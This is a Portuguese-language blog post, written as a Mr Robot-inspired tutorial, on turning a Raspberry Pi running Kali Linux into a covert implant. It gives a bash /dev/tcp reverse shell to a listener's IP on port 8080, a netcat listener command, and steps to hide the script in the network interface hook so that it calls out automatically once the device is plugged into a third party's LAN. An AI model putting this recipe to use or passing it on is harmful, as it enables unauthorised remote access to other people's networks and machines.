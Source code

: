```yaml
---
layout: post
title: Mr robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr_robot, raspberry, hack, reverse_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não retrata fielmente as condições encontradas por Elliot no episódio eps1.3\_\_da3m0ns.mp4. Portanto, optei por adaptar um pouco esse tutorial para que ele se torne mais parecido com o conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais.

1.Baixar o [Kali linux para ARM](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que se adequa ao hardware que estiver utilizando. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

<figure class="center">
		<img src="{{ site.url }}/images/offensive-sec.png" alt="">
		<figcaption>offensive security</figcaption>
</figure>


2.Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey. Utilizaremos o shell reverso abaixo.

{% highlight bash%}
{% raw %}
bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight bash%}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com esse formato.

3.Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4.Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto nos desviamos um pouco do artigo que utilizamos como base.
No lugar de teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. 

{% highlight bash %}
{% raw %}
mv reverse /etc/network/interfaces/ifup
{% endraw %}
{% endhighlight %}

Dessa forma, assim que a interface do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br



